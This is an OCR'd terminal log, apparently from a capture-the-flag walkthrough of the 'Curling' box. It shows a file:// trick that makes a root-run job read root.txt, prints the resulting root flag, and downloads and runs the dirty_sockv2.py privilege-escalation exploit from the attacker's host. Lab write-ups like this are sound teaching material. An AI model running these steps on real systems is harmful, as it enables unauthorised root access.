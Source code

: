 System load: 0.0 Processes: 203  
Usage of /: 46.3% of 9.78GB Users logged in: 1  
Memory usage: 24% IP address for ens33: 10.10.10.150  
Swap usage: 0%

0 packages can be updated.  
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Mar 31 13:11:06 2019 from 10.10.15.247  
floris@curling:~$ cat user.txt  
65d#########ZENSIERT#########30b

floris@curling:~/admin-area$ ls -alh  
total 28K  
drwxr-x--- 2 root floris 4.0K May 22 2018 .  
drwxr-xr-x 6 floris floris 4.0K Mar 31 13:16 ..  
-rw-rw---- 1 root floris 25 Mar 31 13:29 input  
-rw-rw---- 1 root floris 14K Mar 31 13:29 report  
floris@curling:~/admin-area$ cat input  
url = "http://127.0.0.1"  
floris@curling:~/admin-area$ cat report  
<!DOCTYPE html>  
<html lang="en-gb" dir="ltr">  
[...]

floris@curling:~/admin-area$ vim input

url = "file:///root/root.txt"

floris@curling:~/admin-area$ ls -alh  
total 16K  
drwxr-x--- 2 root floris 4.0K May 22 2018 .  
drwxr-xr-x 6 floris floris 4.0K Mar 31 13:30 ..  
-rw-rw---- 1 root floris 25 Mar 31 13:31 input  
-rw-rw---- 1 root floris 33 Mar 31 13:31 report  
floris@curling:~/admin-area$ cat report  
82c198ab6fc5365fdc6da2ee5c26064a

floris@curling:~$ cd /tmp  
floris@curling:/tmp$ wget http://10.10.14.105:8000/dirty_sockv2.py  
--2019-04-01 08:34:22-- http://10.10.14.105:8000/dirty_sockv2.py  
Connecting to 10.10.14.105:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 8696 (8.5K) [text/plain]  
Saving to: 'dirty_sockv2.py'

dirty_sockv2.py 100%[=====================================================================================================================>] 8.49K --.-KB/s in 0s

2019-04-01 08:34:22 (46.3 MB/s) - 'dirty_sockv2.py' saved [8696/8696]

floris@curling:/tmp$ python3 dirty_sockv2.py
